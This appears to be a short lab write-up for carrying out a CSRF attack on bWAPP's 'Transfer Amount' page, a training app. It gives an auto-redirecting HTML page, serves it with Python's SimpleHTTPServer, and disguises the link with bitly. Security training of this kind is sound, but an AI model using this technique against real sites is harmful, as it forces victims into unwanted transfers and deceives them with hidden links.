 1. Navigate to CSRF(Transfer Amount) in bWAPP press transfer and copy the url
2. Craft a malicious HTML page using the following code and insert parameters as you desire:

     <html>
	 	<script>
			document.onload = window.location.href = ["url"];
		</script>
	  </html>
	  
3. Open HTTP server via python to serve the page - python -m SimpleHTTPServer
4. Obfuscate the link using bitly